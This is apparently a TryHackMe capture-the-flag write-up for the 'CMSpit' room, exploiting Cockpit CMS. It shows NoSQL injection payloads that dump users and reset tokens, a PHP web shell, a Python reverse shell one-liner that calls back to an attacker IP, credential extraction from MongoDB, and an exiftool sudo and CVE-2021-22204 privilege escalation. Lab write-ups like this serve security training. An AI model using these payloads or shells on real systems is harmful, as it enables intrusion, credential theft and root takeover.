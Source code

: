 Machine: CMSpit

URL: [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

Difficulty: Medium 

Author: ![stuxnet](https://tryhackme.com/p/stuxnet)

## Enumeration

#### Nmap

	# Nmap 7.91 scan initiated Mon Aug  2 21:11:13 2021 as: nmap -v -sC -sV -oA nmap/scan 10.10.106.225
	Increasing send delay for 10.10.106.225 from 0 to 5 due to 118 out of 391 dropped probes since last increase.
	Nmap scan report for 10.10.106.225
	Host is up (0.38s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
	|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
	|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-favicon: Unknown favicon MD5: C9CD46C6A2F5C65855276A03FE703735
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-title: Authenticate Please!
	|_Requested resource was /auth/login?to=/
	|_http-trane-info: Problem with XML parsing of /evox/about
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Mon Aug  2 21:12:16 2021 -- 1 IP address (1 host up) scanned in 63.73 seconds

Two open ports 22/shh and 80/http

80/http is running with **Cockpit cms**

![sada](../assets/img/thm/cmspit/80http.png)

We known cms is Cockpit then look google for any exploit!

we got this article [https://swarm.ptsecurity.com/rce-cockpit-cms/](https://swarm.ptsecurity.com/rce-cockpit-cms/) and next as follow this
try to exploit!

## Exploit

**Step 1: Dump Users**

[http://10.10.59.7/auth/login](http://10.10.59.7/auth/login) intercept the request send to repeater then modify the request Using the _$func_ operator of the MongoLite library (used by default)

![image](../assets/img/thm/cmspit/var_dump.png)

we successfully dumped!

**Step 2: Try to Dump PasswordReset Token**

As same as before intercept the forgotpassword reset request send to repeater and change the header requestreset to resetpassword and 
user parameter to token and add $func param too and send value var_dump.

	{
		"token":{
			"$func":"var_dump"
		}
	}

![image](../assets/img/thm/cmspit/reset_token.png)

As successfully we got token

**Step 3: Send new request for new password**

Change the header as auth/newpassword and add token parameter to send token!

![image](../assets/img/thm/cmspit/newpasswd.png)

![image](../assets/img/thm/cmspit/newpasswdweb.png)

Done! next lets login

Dashboard
![image](../assets/img/thm/cmspit/dashboard.png)

## Time to Reverse shell

Go to finder and click create ..file

![image](../assets/img/thm/cmspit/finder.png)

create a php file for web shell _shellme.php_

![image](../assets/img/thm/cmspit/create.png)

file is created successfully 

![image](../assets/img/thm/cmspit/shellme.png)

then edit the file enter the php payload

```php
<?php
        echo shell_exec($_REQUEST['cmd']);
?>
```
![image](../assets/img/thm/cmspit/writeshell.png)

save it and open it

![image](../assets/img/thm/cmspit/id.png)

yeah! we did lets get reverse shell with python3 payload

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.xx.xxx",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](../assets/img/thm/cmspit/reversesheel.png)

## Enum for SSH Creds

in terminal type _mongo_

	>show dbs

	>use sudousersbak

	>show collections

in this we get _webflag_ and user creds..
	
	>db.user.find()

	{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p4ss******123" }
	{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
	> 

![image](../assets/img/thm/cmspit/pass.jpg)

Yeah! we got ssh crendentials stux:p4ssxxxxxxxxx123

## Privilege escalation

sudo -l

PrivEsc using Exiftool 

![image](../assets/img/thm/cmspit/sudo-l.png)

On ![Gtfobins](https://gtfobins.github.io/gtfobins/exiftool/#sudo)

	sudo exiftool -filename=/home/stux/root.txt /root/root.txt

Now check stux home dir!
 
After some googling found __Arbitrary Code Execution for CVE-2021-22204 in ExifTool__

Exploit: [https://github.com/se162xg/CVE-2021-22204](https://github.com/se162xg/CVE-2021-22204)

Download the script then send to the Machine 

	bash Exiftool-PrivEsc.sh 'sudo su'

	sudo -u root /usr/local/bin/exiftool delicate.jp

![image](../assets/img/thm/cmspit/root.png)

Rooted!

